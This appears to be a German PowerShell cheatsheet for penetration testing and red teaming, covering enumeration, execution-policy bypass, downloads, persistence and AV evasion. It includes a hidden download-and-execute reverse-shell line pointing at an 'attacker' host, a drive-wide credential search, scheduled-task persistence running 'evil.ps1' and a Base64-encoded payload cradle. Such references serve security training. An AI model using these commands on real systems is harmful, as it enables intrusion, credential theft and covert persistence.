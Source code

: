 # ⚡ PowerShell Cheatsheet for Cybersecurity & Offensive Ops

## 📘 Ziel dieser Datei

Dieses Cheatsheet bietet eine schnelle Referenz für den **Einsatz von PowerShell** in Penetration Tests, Incident Response, Red Teaming und OSINT. Es enthält **sicherheitsrelevante, administrative und offensive Befehle**, gegliedert nach Szenarien.

> 🛡️ Hinweis: PowerShell ist ein äußerst mächtiges Werkzeug – bitte **nur in autorisierten Umgebungen** einsetzen!

---

## 🧭 Inhaltsverzeichnis

- [Systeminformationen](#systeminformationen)
- [Benutzer & Gruppen](#benutzer--gruppen)
- [Netzwerk- & Firewallinfos](#netzwerk--firewallinfos)
- [Dateisystem und Suche](#dateisystem-und-suche)
- [Prozesse & Dienste](#prozesse--dienste)
- [PowerShell Execution Policies](#execution-policies--umgehung)
- [Datei-Download & Remote Access](#download--remote-access)
- [PowerShell Recon & Enumeration](#powershell-recon--enum)
- [PowerShell als Angriffsplattform](#powershell-für-angreifer)
- [Persistenz via PowerShell](#persistenz-via-powershell)
- [Antivirus Evasion](#av-evasion-basics)
- [Nützliche Tools](#nützliche-module--projekte)

---

## 🖥️ Systeminformationen

```powershell
Get-ComputerInfo
systeminfo
hostname
Get-WmiObject -Class Win32_OperatingSystem
```

---

## 👤 Benutzer & Gruppen
```powershell
whoami /all
Get-LocalUser
net user
net localgroup administrators
Get-LocalGroupMember -Group "Administrators"
```

---

## 🌐 Netzwerk- & Firewallinfos

```powershell
ipconfig /all
Get-NetIPConfiguration
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
Get-NetFirewallProfile
Get-NetFirewallRule
Test-NetConnection -ComputerName <IP> -Port <Port>
```

---

## 📂 Dateisystem und Suche

```powershell
Get-ChildItem -Recurse -Filter *.ps1
dir -Recurse -Filter *password*
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

---

## 🔧 Prozesse & Dienste

```powershell
Get-Process
tasklist
Get-Service
Get-WmiObject win32_service | Where { $_.State -eq "Running" }
```

---

## 🚧 Execution Policies & Umgehung

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```

---

## 📥 Download & Remote Access
### 🔻 Datei herunterladen

```powershell
Invoke-WebRequest "http://ip/script.ps1" -OutFile "script.ps1"
```

### 💻 Remote Shell (reverse)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/nc.ps1')
```

---

## 🔎 PowerShell Recon & Enum

### 🔐 Passwort-Reste / Credentials

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include *pass*,*cred*,*vnc* | Select-String -Pattern "password"
```

### 🧠 Benutzerkontext

```powershell
Get-CimInstance Win32_LoggedOnUser
```

### 🗄️ Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -like "*"}
```

## 💣 PowerShell für Angreifer

| Tool                      | Beschreibung                             |
| ------------------------- | ---------------------------------------- |
| `PowerView.ps1`           | AD-Recon, Trust-Mapping                  |
| `PowerUp.ps1`             | Local Privilege Escalation Checks        |
| `Invoke-Mimikatz`         | Credential Dumping (⚠️ AV blockiert oft)  |
| `SharpHound` (BloodHound) | AD Graph-Enum                            |
| `Empire`                  | PowerShell RAT Framework                 |
| `Powersploit`             | Offensive Module-Sammlung                |

--- 

## 📌 Persistenz via PowerShell
```powershell
# Persistenz per Scheduled Task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\evil.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger
```

--- 

## 🧪 AV-Evasion Basics (nur zu Lernzwecken!)
```powershell
# Base64-Encoding Payloads
$bytes = [System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).DownloadString('http://<ip>/payload.ps1')")
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```

---

## 🔌 Nützliche Module & Projekte

| Tool / Modul   | Link                                                                                                                                     |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| PowerSploit    | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                                         |
| Nishang        | [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)                                                         |
| PowerUp        | [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) |
| Empire         | [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)                                                           |
| PowerSharpPack | [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)                                     |

---

## 📁 Verknüpfte Dateien im Repository
- [windowsPrivlegeEscalation.md](/04-os-enumeration/windowsPrivilegeEscalation.md)
- [linuxPrivlegeEscalation.md](/04-os-enumeration/linuxPrivilegeEscalation.md)
- [redTeamTools.md](/05-red-teaming/redTeamTools.md)

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

